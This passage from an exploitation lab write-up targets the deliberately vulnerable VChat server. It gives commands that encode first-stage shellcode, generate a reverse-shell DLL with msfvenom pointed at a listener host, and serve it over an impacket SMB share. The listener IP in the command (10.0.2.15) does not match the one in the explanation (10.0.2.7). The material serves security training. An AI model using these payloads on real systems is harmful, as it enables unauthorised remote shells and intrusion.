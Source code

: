 5. Use the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) as shown below. First you must have downloaded the encoder with the command `git clone https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder.git`
	```
	$ cd Automatic-ASCII-Shellcode-Subtraction-Encoder # Enter into the directory with the python files
	$ python3 encoder.py -m -p -s '<SHELLCODE>' -v FIRST_STAGE
	```
	* Replace the `<SHELLCODE>`: With the hex string produced when you ran the [extract.sh](./SourceCode/extract.sh) script.

6. Use the resulting shellcode as shown in the [exploit13a-DLL.py](./SourceCode/exploit13-DLL.py) program. As done previously set a breakpoint and step through the program to verify our shellcode is properly decoded.

	<img src="Images/Exploit13DLL.png">



Now that we have our first stage shellcode, we can generate the second stage, which is contained in a remotely hosted DLL.
1. Use [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) to generate the malicious DLL as it is capable of formatting output for use as a DLL. In this case the shellcode will be contained in the DLL Main function as discussed in the [VChat_DLL](https://github.com/DaintyJet/VChat_KSTET_DLL) writeup!

```
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=none -f dll -o mal.dll
```
* `-a x86`: Specify this is against a 32 bit program.
* `--platform windows`: Specify this is against a process on a Windows system.
* `-p `: Payload we are generating shellcode for.
    * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
    * `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    * `EXITFUNC=none`: The runs without an exit function, the program will likely crash after this finishes executing!
* `-f`: The output format.
    * `dll`: Format for use as a DLL.

2. Use the [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver) to host the malicious DLL.
	```
	$ sudo impacket-smbserver -smb2support ABCD .
	```
	* `sudo`: This command and operation requires root privileges to bind to the well known SMB port 445.
	* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
	* `smb2support`: Enable SMB2 Support.
	* `ABCD`: Name of the current Share. This is chosen to be short or longer to reduce the complexity of the shellcode generation.
	* `.`: This is the current directory we are in, we can specify a path to share a specific directory.
